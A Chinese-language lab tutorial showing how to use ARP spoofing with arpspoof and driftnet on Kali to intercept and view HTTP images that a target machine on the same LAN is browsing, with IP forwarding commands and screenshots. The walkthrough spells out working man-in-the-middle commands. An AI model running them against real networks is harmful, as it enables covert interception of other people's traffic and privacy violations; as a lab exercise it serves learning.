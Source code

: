 ```yaml
---
title: 小练习-利用arp欺骗获取目标机浏览图片
date: 2023-05-04 17:20:15
categories: #分类
- 渗透测试
tags: #标签
  - Kali

---
```




<a name="r0Zwd"></a>

# 一、准备阶段 

<a name="MZAfE"></a>
#### A、操作系统：
```
目标机-centos  192.168.1.33  网关 192.168.1.3
攻击方-kali    192.168.1.114

要求：
1、目标机与攻击机处于同一个局域网
2、攻击方需知道目标机的ip和目标机的网关
```
<a name="NNw9c"></a>
#### B、kali所需工具：
```
1、arpspoof（使用apt install dsniff安装，如果出现未找到软件包之类的，多换几个国内源，再更新下）
2、 driftnet：是一款网络流量捕捉图像并将其显示在小窗口的软件
主要参数：
    -b    捕获到新的图片时发声
    -d    指定保存图片的路径
    -x    指定保存图片的前缀名
    -i    选择监听接口
    -f    读取一个指定pcap数据包中的图片
    -a    后台模式：
    -m    指定保存图片数的数目
```

二、实操阶段<br />1、kali配置网络<br />将kali的ip设置到与目标机的ip同网段<br />2、相互ping ，查看是否可连通

3、开始arp攻击：将目标机的网关地址替换成攻击方的ip地址，这样目标机的流量就会从转发到攻击方的机器
未开始前查看原始数据未开始前用fping看看同一网段下还存在什么ip,再用arp -a看看目标机的原始arp缓存是什么
```
#查看局域网内存在的主机
fping -g 192.168.1.1/24

```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1682588958883-433d250d-3008-47e3-958b-3c927d0165a3.png#averageHue=%23272d3d&clientId=u5017a552-0a73-4&from=paste&height=194&id=u0e5d0114&originHeight=194&originWidth=627&originalType=binary&ratio=1&rotation=0&showTitle=false&size=50246&status=done&style=none&taskId=u0c46188f-94dd-4517-b7c8-7e4b78cdce4&title=&width=627)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1682589324113-13ec8f8e-ea61-4d06-827a-b5e7d043a255.png#averageHue=%23320c27&clientId=u5017a552-0a73-4&from=paste&height=273&id=u386cf0df&originHeight=273&originWidth=553&originalType=binary&ratio=1&rotation=0&showTitle=false&size=91844&status=done&style=none&taskId=u3b6af19c-d8a8-4bb3-af47-d2c0c86970e&title=&width=553)

开始用arpspoof工具进行arp攻击：
```
#开启路由转发，实验结束后关闭即可，这个不开的话受害主机就断网了
echo 1 > /proc/sys/net/ipv4/ip_forward   

arpspoof -i eth0 -t 192.168.1.33 192.168.1.3

说明：
-i后面的参数是网卡名称
-t后面的参数是目的主机和网关，要截获目的主机发往网关的数据包
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1682589758417-9a15a4ab-7d30-4080-8d72-7b04ed676bb9.png#averageHue=%23272d3c&clientId=u5017a552-0a73-4&from=paste&height=246&id=u1f74a382&originHeight=246&originWidth=647&originalType=binary&ratio=1&rotation=0&showTitle=false&size=72089&status=done&style=none&taskId=u29a8704b-a6ad-4d09-aae9-e453f4ecb61&title=&width=647)<br />不终止程序，来到目标机查看arp缓存 <br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1682589968057-85f3e6a7-2593-4409-98f0-a3c1d7b09147.png#averageHue=%23330d27&clientId=u5017a552-0a73-4&from=paste&height=143&id=u22d3c497&originHeight=143&originWidth=534&originalType=binary&ratio=1&rotation=0&showTitle=false&size=59771&status=done&style=none&taskId=ud2c7f962-6cbb-4e9b-a988-f1b3febfc3b&title=&width=534)<br />4、使用driftnet查看<br />此时，在目标机内查看图片（只能查看http的，https无法获取），攻击方在driftnet内就能看到图片
```
driftnet -i eth0
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1682590495272-5a23672a-71ef-4756-920b-6bceffc61e68.png#averageHue=%2394744e&clientId=u5017a552-0a73-4&from=paste&height=866&id=u0fb8b485&originHeight=866&originWidth=1596&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1470505&status=done&style=none&taskId=uecb3de18-d2b2-40e4-bafa-25a883d9f90&title=&width=1596)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/25987745/1683102987062-43478815-bedc-4fad-b30b-b5d5b89c6eca.png#averageHue=%232a2f3d&clientId=u925194d7-4358-4&from=paste&height=878&id=u31f37fc2&originHeight=878&originWidth=1668&originalType=binary&ratio=1&rotation=0&showTitle=false&size=191263&status=done&style=none&taskId=u3510c0c6-a88b-40ad-ae24-1ecba883644&title=&width=1668)<br />总结：图片抓取不是很准确，有的能抓，有的不能，有时可抓，有时又不可抓。。。。。抓的不全<br />而且这个图片界面也没有滚动条
